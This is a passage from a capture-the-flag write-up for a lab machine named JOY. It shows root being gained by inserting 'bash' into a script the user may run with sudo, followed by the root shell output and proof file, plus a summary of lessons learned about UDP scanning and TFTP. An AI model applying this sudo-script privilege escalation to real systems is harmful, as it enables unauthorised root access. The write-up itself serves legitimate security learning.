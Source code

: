 We now have access to the `test` file. Viewing it in `nano` will show us how the script works. I will just add bash after the `#!/bin/sh` line: 

```
#!/bin/sh

bash

echo "I am practising how to do simple bash scripting!"
...
```

Save the file and run it as `sudo` again: 

```
patrick@JOY:~/script$ sudo /home/patrick/script/test
root@JOY:/home/patrick/script# id
uid=0(root) gid=0(root) groups=0(root)
root@JOY:/home/patrick/script# cat /root/proof.txt 
Never grant sudo permissions on scripts that perform system functions!
root@JOY:/home/patrick/script#
```


## Summary 

I wasted a lot of time enumerating other ports. I was stuck because i ran out of ideas. Exposure is important they say! Overall I would say that for this machine, enumeration part plays a big role. If it wasnt for the writeup I dont think I will root this machine. Things to takeaway from this machine is definitely 

- Scanning of UDP Ports 
- CPFR / CPTO command in telnet for FTP
- Hands-on on TFTP command. 

I had my fun. See you all in the next post!  




